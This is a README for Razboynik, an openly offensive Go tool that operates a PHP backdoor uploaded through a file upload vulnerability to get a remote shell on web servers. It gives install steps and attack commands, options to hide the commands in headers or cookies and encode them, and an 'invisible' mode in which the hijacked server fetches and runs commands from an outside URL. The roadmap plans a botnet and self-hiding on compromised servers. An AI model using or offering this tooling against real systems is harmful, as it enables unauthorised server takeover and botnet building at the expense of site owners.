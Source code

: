 (screen)

#Razboynik - разбойник
Razboynik, gain reverse shell with a simple PHP backdoor

##Current version
2.0.0

##How it works ?
- Upload the infected file on a webserver (thanks to file upload vulnerability)
- Start Razboynik with the right information
- You have a reverse shell on the server
- Enjoy

##Why Razboynik ?
Where FurezApi Framework and later FurezExploit (C++ brother) were boring and long to setup and install, Razboynik learnt about those mistakes and fix it. 
Razboynik is giving you a better interface to handle the server (nothing better than shell). Easier to install, faster to use, better to customize and hot new functionnalities:
- Encoding all the request (Crypto on the way)
- Infected requests by GET, POST, Headers or Cookies
- Logs every result in file
- Better interface
- Easy to plug bundle and plugin thanks to modules
- Proxied tunnel (on the way)

##FurezLegacy ?
Razboynik is the FurezLegacy project on Golang.
FurezApi Framework was a little PHP website that exploit PHP backdoor.
It allow you to exploit file upload vulnerability on web server.
The main goal was pretty simple : Test every possibilities of infected files to upload, and then, if the upload is successful:

- giving you a user interface to manage datas
- allowing you to do what you want on server

Show the folder structure of the website ? Show a specific file ? Zip content ? Download content ? Upload or even delete ? If the API succeed to be upload on the server. You're the new king of this one!

##Install & Run
###Requirements
These requirements are necessary :
- `Golang`

###Dependencies
These dependencies will be install:
- `eatbytes/sysgo` (Small abstraction of system command)
- `spf13/cobra` (Usefull utility to handle flag and parse command)
- `fatih/color` (Great colors to push on terminal)
- `golang library` (fmt, strings, buffer, etc...)

These dependencies are already in the vendor folder:
- `eatbytes/razboy` (Business logic and core of razboynik)
- `chzyer/readline` (Implementation of readline to loop on command)

###Installation
Instructions to build the app:
- `git clone https://github.com/EatBytes/razboynik.git` (or SSH if you want)
- `cd razboynik`
- `go get` (install dependencies)
- `go build` or `go install`

The `go build` command will build the project locally (it means, only create a binary in the folder). `go install` create a binary available everywhere (if the $GOBIN folder is in $PATH).

##Demo
[![asciicast](https://asciinema.org/a/92281.png)](https://asciinema.org/a/92281)

Let's suppose you find a file upload vulnerability in a website and you upload the script available in `res/backdoor` folder.
Now the url of your script could be (as example) : http://{website}/uploads/script.php

With this statement we can use razboynik as it follow :
- `./razboynik run http://{website}/uploads/script.php`

If you want to change the parameter sent, add -p flag and precise it. Like : `./razboynik run [URL] -p myParameter`.
By default the parameter is "razboynik". Parameter is the name of the field or header or cookie (depends on method) sent to server. If the method is GET, razboynik will simply add at the end of the url = ?razboynik={request}.

If you want to change the method, add -m flag as : `./razboynik run [URL] -m POST`.
By default, method is set to GET. You have the choice between : GET, POST, HEADER (evil request will be set in headers), COOKIE.

For more option you can add -h flag. Or type `./razboynik help`.

##API
###run
Run a reverse shell with specified configuration

ARGUMENTS:
- `[URL]`: (string) Url of the target. Ex: `http://localhost/script.php`

OPTIONS: 
- `-m, --method`: (string) Method to use. Ex: `-m POST` (default: "GET")
- `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
- `-s, --shellmethod`: (int) Shellmethod to use. Ex: `-s 0` (default: 0) [0 => system(), 1 => shell_exec()]
- `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: `FromRussiaWithLove<3`)
- `-r, --raw`: (bool) If set, send the request without base64 encoding
- `--proxy`: (string) Possible proxy to use. Ex: `--proxy http://localhost:8080` (default: nil)
- `-c, --crypt`: (Not available)

###generate
(Not available yet)

###scan
Scan a website to identify what shell method and method works on it.

ARGUMENTS:
- `[URL]`: (string) Url of the target. Ex: `http://localhost/script.php`

OPTIONS:
- `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
- `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: `FromRussiaWithLove<3`)

###invisible
Execute a raw command available at an url (referer). Ex: http://website/cmd.txt point to `'echo 1;'` in body, then I can do : 
- `[URL] http://website/cmd.txt`

ARGUMENTS:
- `[URL]`: (string) Url of the target. Ex: `http://localhost/script.php`
- `[REFERER]`: (string) Url that the server will call to get the cmd to execute. Ex: `http://website.com/cmd-i-want-to-execute.txt`

###api
(TO DO...)

###encode / decode
Encode or decode string.

ARGUMENTS:
- `[STR]`: (string) String to encode or decode in base64.

Ex: 
- `encode hello` => `aGVsbG8=`
- `decode aGVsbG8=` => `hello`

##GO DOC

##Roadmap
###~~1.5.0 (DONE)~~
- ~~Raw request~~
- ~~Better error in razboy (core)~~
- ~~Add more information when run fail~~
- ~~Add cookie method~~
- ~~Implement optional key protection~~
- ~~Add base64 encoding and decoding to root~~
- ~~Add invisible method~~

###2.0.0 (CURRENT)
- Complete refactoring on Cobra version
- More stability
- Better coding standarts
- Proxy available (works like a charm with mitmproxy)
- Web server (REST API)
- Zip
- Vim
- Crazy autocomplete like on your favorite shell
- Vendor folder to have same version of lib
- New modules system, more easy and powerful
- More documentation

###2.1.0 (IN PROGRESS)
- Add `./bin` folder with binaries
- More documentation
- Create a botnet. Handle multiple server at the same time
- Config file (necessary with botnet)
- Proxied tunnel
- Crypto ?
- Hide itself once on server
